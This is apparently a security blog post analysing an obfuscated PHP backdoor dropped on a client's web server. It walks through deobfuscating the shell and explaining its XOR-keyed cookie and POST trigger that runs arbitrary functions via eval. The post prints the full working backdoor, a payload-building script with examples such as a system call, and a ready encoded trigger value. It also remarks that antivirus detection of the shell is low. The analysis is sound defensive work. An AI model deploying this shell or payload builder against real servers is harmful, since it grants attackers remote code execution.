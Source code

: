 ```yaml
---
layout: default
title: PHP Backdoor script analysis 1
---
```



[back](./)


# PHP Backdoor script analysis 1

So, one of our clients have had some unwanted visitors, leaving a couple
of gifts, and I thought I would take a closer look at some of these.

One of the dropped files were a short .php file, with some obfuscated
code:

```php
<?php
$rrgdaww = 'b-x5mrc\'lsv6#ufp394n*Hig1_tae87yk2od';$lyqov = Array();$lyqov[] = $rrgdaww[21].$rrgdaww[20];$lyqov[] = $rrgdaww[12];$lyqov[] = $rrgdaww[28].$rrgdaww[17].$rrgdaww[24].$rrgdaww[0].$rrgdaww[14].$rrgdaww[11].$rrgdaww[30].$rrgdaww[35].$rrgdaww[1].$rrgdaww[30].$rrgdaww[14].$rrgdaww[33].$rrgdaww[0].$rrgdaww[1].$rrgdaww[18].$rrgdaww[33].$rrgdaww[14].$rrgdaww[14].$rrgdaww[1].$rrgdaww[29].$rrgdaww[11].$rrgdaww[35].$rrgdaww[3].$rrgdaww[1].$rrgdaww[16].$rrgdaww[27].$rrgdaww[27].$rrgdaww[3].$rrgdaww[24].$rrgdaww[27].$rrgdaww[30].$rrgdaww[3].$rrgdaww[14].$rrgdaww[33].$rrgdaww[28].$rrgdaww[17];$lyqov[] = $rrgdaww[6].$rrgdaww[34].$rrgdaww[13].$rrgdaww[19].$rrgdaww[26];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[25].$rrgdaww[5].$rrgdaww[28].$rrgdaww[15].$rrgdaww[28].$rrgdaww[27].$rrgdaww[26];$lyqov[] = $rrgdaww[28].$rrgdaww[2].$rrgdaww[15].$rrgdaww[8].$rrgdaww[34].$rrgdaww[35].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[13].$rrgdaww[0].$rrgdaww[9].$rrgdaww[26].$rrgdaww[5];$lyqov[] = $rrgdaww[27].$rrgdaww[5].$rrgdaww[5].$rrgdaww[27].$rrgdaww[31].$rrgdaww[25].$rrgdaww[4].$rrgdaww[28].$rrgdaww[5].$rrgdaww[23].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[8].$rrgdaww[28].$rrgdaww[19];$lyqov[] = $rrgdaww[15].$rrgdaww[27].$rrgdaww[6].$rrgdaww[32];foreach ($lyqov[7]($_COOKIE, $_POST) as $upqahri => $cmxizo){function qhdpi($lyqov, $upqahri, $qbwar){return $lyqov[6]($lyqov[4]($upqahri . $lyqov[2], ($qbwar / $lyqov[8]($upqahri)) + 1), 0, $qbwar);}function gwwsryf($lyqov, $mofkmwg){return @$lyqov[9]($lyqov[0], $mofkmwg);}function dhrqt($lyqov, $mofkmwg){$lqofrk = $lyqov[3]($mofkmwg) % 3;if (!$lqofrk) {eval($mofkmwg[1]($mofkmwg[2]));exit();}}$cmxizo = gwwsryf($lyqov, $cmxizo);dhrqt($lyqov, $lyqov[5]($lyqov[1], $cmxizo ^ qhdpi($lyqov, $upqahri, $lyqov[8]($cmxizo))));}
```

At first glance, this does not make much sense, though there are some
noticeable signs that should trigger the alarm bells:

-   The apparent use of obfuscation
-   The direct client interaction shown with \$\_COOKIE & \$\_POST
-   And the most alarming one, is the presence of the "eval" function

After cleaning it up abit, by adding some line breaks and indentation,
it starts to become clearer what is going on:

![](Pictures/PHP01_01.png)



Its visible that:

-   A variable is initialized with some kind of string
-   An array is created with values concatenated from offsets in the
    above string
-   A loop over all key:value pairs from \$\_COOKIE & \$\_POST is
    happening
-   At some point an expression is evaluated

Let's take a look what the array contains after assignment:

```php
$lyqov = Array();
$lyqov[0] = "H*";
$lyqov[1] = "#";
$lyqov[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$lyqov[3] = "count";
$lyqov[4] = "str_repeat";
$lyqov[5] = "explode";
$lyqov[6] = "substr";
$lyqov[7] = "array_merge";
$lyqov[8] = "strlen";
$lyqov[9] = "pack";
```
  
A lot of those value looks unmistakably like the names of PHP functions.

Let's make the script more readable with some Search/Replace, replacing
all the array references with its corresponding array value, as well as
some quick renaming of functions, variables and parameters.

```php
$mainArray = Array();
$mainArray[0] = "H*";
$mainArray[1] = "#";
$mainArray[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$mainArray[3] = "count";
$mainArray[4] = "str_repeat";
$mainArray[5] = "explode";
$mainArray[6] = "substr";
$mainArray[7] = "array_merge";
$mainArray[8] = "strlen";
$mainArray[9] = "pack";

foreach (array_merge($_COOKIE, $_POST) as $key => $value){
	
	function func1($mainArray, $key, $func1_p3){
		return substr(str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($func1_p3 / strlen($key)) + 1), 0, $func1_p3);
	}
	
	function func2($mainArray, $func2_p2){
		return @pack("H*", $func2_p2);
	}
	
	function func3($mainArray, $func3_p2){
		
		$flag = count($func3_p2) % 3;

		if (!$flag) {
			eval($func3_p2[1]($func3_p2[2]));
			exit();
		}
	}

	$value = func2($mainArray, $value);

	func3($mainArray, explode("#", $value ^ func1($mainArray, $key, strlen($value))));
}
```


It now possible to see what is going on, but to fully understand the
functionality, I decided to take a deeper look by going through each
section, and doing some rewriting where's needed, as well as adding some
comments.

```php
  // mainArray is no longer needed

  // Iterate all cookie and post parameters
  foreach (array_merge($_COOKIE, $_POST) as $key => $value){
  
    // create repeating XOR cipher key to decipher $value
    function xorKey($key, $valueLen){
      // string substr ( string $string , int $start [, int $length ] )
      return substr(
        // string str_repeat ( string $input , int $multiplier )
        // Name of key used to deliver the payload, concatenated with some id eg. payloads are designed for specific targets, or atleast only accessible with id knowledge
        // Repeat xorKey to atleast length of $value
        str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($valueLen / strlen($key)) + 1),
        0,
        $valueLen
      );
    }
  
    // Get length of $value before conversion to bin
    $valueLen = strlen($value);

    // Convert a binary expression (e.g., "01000001 01000010 01000011") into a binary-string
    // Note : The @ is the error suppression operator in PHP! (Meaning any error in pack, will be ignored)
    $value = @pack("H*", $value);

    // XOR 
    /*
      $value : supplied XOR cipher payload from entry arrays
      $xorKey : XOR cipher key fitted to length of $value ($key."e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9") * times to be larger than length of $value
    */
    $payload = $value ^ xorKey($key, $valueLen);    
    
    // Create array for each element separated by "#"
    $payloadArr = explode("#", $payload);
    
    // is array length divisable by 3
    $flag = count($payloadArr) % 3;
    if (!$flag) {
      // success
      /*
        $payload[1] : function or method name, likely something like base64_decode or system
        $payload[2] : parameter for above function
      */
      eval($payloadArr[1]($payloadArr[2]));
      exit();
    }
    
  }
```

To summarise what is going on there, the script parses all parameters
provided in \$\_COOKIE & \$\_POST, looking for a key value pair, that
can be deciphered and on success evaluated.

Script flow:

1.  It iterates over all key:value pairs in $_COOKIE & $_POST,
    giving any client access to invoke this scripts functionality.

2.  To check if a key:value is a valid "payload", following is applied:

		a.  A repeating XOR cipher key is generated, based on key name and a "unique" id in the script.
		b.  The value is converted to binary.
		c.  XOR is then applied to the binary value, using previously generated key.
		d.  It is then made into an array, expecting each element is separated by "#".
		e.  If this array contains 3 (6,9..) elements, it's assumed a valid payload.

3.  If a valid payload was found, it is provided to the eval function,
    giving access to running any serverside code supplied!

4.  Script ends execution flow, if 1 valid payload is found, or when all
    key:value pairs have been processed.

We now know that a valid trigger would look something like this:

```php
$_POST = [
  "payload" => "0123456789abcdef"
];
```

To get a better look at what a payload would look like, I reversed the
functionality to be able to generate a valid payload.

```php
// Builds the payload, 3 examples, only 1st one is used
$payload = [
	// base64_decode("echo \"Hi\"; ")
	"unknwown",
	"base64_decode",
	base64_encode("echo \"Hi\"; "),
	
	// system('ls-lah')
	"unknwown",
	"system",
	"'ls-lah'",


	"unknwown",		// [0] Does not seem to be used, but could be to prevent accidentally processing "normal" parameters containing "#"
	"function_name",	// [1] Function name
	"function_param",	// [2] Function param
];

// Convert payload to string, separating entries by "#"
$payload = implode("#", $payload);

// Set a key name for the payload, used when delivering the payload to the target
$payloadKeyName = "payload";

// Set ID, used for either specific targets or as an access prevention to the specific backdoor script
$ID = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";

// Create repeating XOR cipher key from ($payloadKeyName & $ID)
$xorKey = str_repeat($payloadKeyName . $ID, (strlen($payload) / strlen($payloadKeyName)) + 1);

// XOR cipher the $payload using the $xorKey
$pXOR = $payload ^ $xorKey;

// Convert XOR'ed payload into a hexadecimal string
$finishedPayload = @unpack("H*", $pXOR);
```


That gives us following payload:
```php
[
"payload" => "050f1202180e130b1a530315530150725303510d4951113c316357541d744460260a5c7e18760845470b521e16161b0142171c4a45070b157e085a59047a2f4a78651e0e4c7e410a7c47405c"
]
```

And with a POST request to the initial script, we get a fine little "Hi"
message. =)

Oh and btw, VirusTotal had limited detection rate for this piece.

![](Pictures/PHP01_02.png)



[back](./)


